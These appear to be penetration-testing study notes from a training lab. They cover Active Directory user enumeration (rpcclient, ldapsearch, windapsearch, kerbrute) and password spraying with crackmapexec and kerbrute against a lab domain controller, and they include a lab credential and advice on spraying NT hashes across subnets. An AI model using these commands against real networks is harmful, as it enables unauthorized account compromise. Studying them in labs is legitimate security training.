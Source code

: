 ```sh
rpcclient -U "" -N 172.16.5.5
rpcclient $> enumdomusers 
```
and finally it can be done with crackmapexec 

```sh
crackmapexec smb 172.16.5.5 --users
```
using LDAP anonymous

```sh
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```
or with this tool
```sh
./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```

let's suppose we want to brute force users we can use custome username lists, and kerbrute, that uses TGT to validate is the user exists or not.

```sh
 kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
 ```

 if we have a valid credentials we can use crackmapexec to validate users 

 ```sh
 sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
 ```
 Suppose we found the user names, we want to try the password welcome1, those different methods to do so.

 ```bash
 for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done

#with kerbrute
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
#carckmap exec
sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +

# to validate the users

sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

```

Sometimes we may only retrieve the NTLM hash for the local administrator account from the local SAM database. In these instances, we can spray the NT hash across an entire subnet (or multiple subnets) to hunt for local administrator accounts with the same password set. In the example below, we attempt to authenticate to all hosts in a /23 network using the built-in local administrator account NT hash retrieved from another machine. The --local-auth flag will tell the tool only to attempt to log in one time on each machine which removes any risk of account lockout. Make sure this flag is set so we don't potentially lock out the built-in administrator for the domain. By default, without the local auth option set, the tool will attempt to authenticate using the current domain, which could quickly result in account lockouts.
